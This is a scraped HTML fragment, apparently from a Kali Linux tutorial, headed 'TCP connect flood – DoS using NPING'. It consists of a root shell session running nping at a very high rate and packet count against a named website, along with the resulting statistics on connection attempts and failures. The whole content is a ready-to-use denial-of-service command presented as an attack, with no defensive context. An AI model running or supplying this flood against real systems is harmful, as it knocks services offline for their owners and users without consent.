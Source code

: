 <h4 style="padding:0px;margin:25px 0px 10px;outline:none;list-style:none;border:0px none;box-sizing:border-box;font-weight:normal;line-height:1em;font-family:Lora, serif;font-size:18px;color:#FF6200;white-space:normal;background-color:#FFFFFF;">
	<span style="padding:0px;margin:0px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#993300;">
	<h4 style="padding:0px;margin:25px 0px 10px;outline:none;list-style:none;border:0px none;box-sizing:border-box;font-weight:normal;line-height:1em;font-family:Lora, serif;font-size:18px;color:#FF6200;white-space:normal;background-color:#FFFFFF;">
		<span style="padding:0px;margin:0px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#993300;">TCP connect flood – DoS using NPING</span>
	</h4>
<pre style="padding:1em;margin-top:0px;margin-bottom:1em;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:#333333;font-stretch:normal;line-height:19px;overflow-x:auto;overflow-y:hidden;color:#DFDFDF;clear:both;border-radius:2px;">root@kali:~# nping --tcp-connect -rate=90000 -c 900000 -q www.hping3testsite.com 
Starting Nping 0.6.46 ( http://nmap.org/nping ) at 2014-08-21 16:20 EST
^CMax rtt: 7.220ms | Min rtt: 0.004ms | Avg rtt: 1.684ms
TCP connection attempts: 21880 | Successful connections: 5537 | Failed: 16343 (74.69%)
Nping done: 1 IP address pinged in 3.09 seconds
root@kali:~#</pre>
</span>
</h4>